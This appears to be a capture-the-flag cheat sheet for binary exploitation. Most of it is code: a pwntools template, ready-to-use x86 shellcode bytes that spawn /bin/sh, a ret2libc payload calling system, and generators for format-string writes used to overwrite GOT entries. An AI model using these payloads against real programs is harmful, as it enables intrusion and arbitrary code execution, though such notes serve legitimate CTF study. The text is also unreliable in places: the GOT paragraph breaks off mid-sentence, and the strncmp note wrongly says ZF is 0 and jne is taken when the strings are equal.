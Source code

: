 # Summary

## Overwriting GOT technique
If there is a format string vuln, you can use it to overwrite some function in GOT with an address of your buffer location on stack. Generally, you will place shellcode in this buffer. Then, when the program executes this 


## Generic Template
```python

from pwn import *

PROGNAME = "./<name>"
REMOTEIP = "<ip>"
REMOTEPORT = 1234

if args.REMOTE:
    p = remote(REMOTEIP, REMOTEPORT)
    elf = ELF(PROGNAME)
else:
    p = process(PROGNAME)
    elf = p.elf

p.interactive()
```

## Shell code
```python
shellcode = asm(shellcraft.sh())  

#Smaller shellcode ~27 bytes
shellcode = b'\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x89\xc1\x89\xc2\xb0\x0b\xcd\x80\x31\xc0\x40\xcd\x80'

```

Buffer Overflows: Calculating return address offsets
```
cyclic 2000 | xclip -selection clipboard
cyclic -l <addr where program crashed>
```

## Creating payloads - pwntools fit
```
payload = fit({
    offset: elf.symbols["system"],
    offset + 4: p32(0), 
    offset + 8: p32(target) #The address to a string "/bin/sh"
})
```


## Format strings writing to an address
```python
def get_n(new, prev, size):
    while new <= prev:
        new += (1 << size)
    return new-prev

#Function that returns payload = <base_addr> + <base_addr + 1> + <base_addr + 2> + <base_addr + 3>
def gen_addrs(base_addr):
    addrs = b''
    for i in range(4):
        addrs += p32(base_addr + i)
    return addrs

#Function to return the format string
#Args - address to write, current payload length, printf stack 
def gen_format_writes(to_write, setup_len, stack_offset):
    payload = b''
    n_val = [setup_len]
    for i in range(4):
        n_val += [get_n(to_write[i], sum(n_val[:i+1]), 8)]
        payload += '%{}c'.format(n_val[i+1]).encode()
        payload += '%{}$hhn'.format(stack_offset + i).encode()
        print("Payload part " + str(i) + " = " + str(payload) )
    return payload
```

```python
fmtstr_payload(offset=12, writes={old_address: new_address})
```
Use numbwritten to specify the offset


## Common re
`strncmp` sets zero flag(ZF) to 0 if strings are equal. The jne branch will be taken if ZF=0 (i.e. if strings are eqla)
```
strncmp
test eax eax
```

## Regex patterns I've used
```python
match = re.search(r'0x[a-f0-9]+', p.recvline().decode())
leak = int(match.group(), 16)
```

## gcc compile
```
gcc hello.c -o hello32 -m32
``` 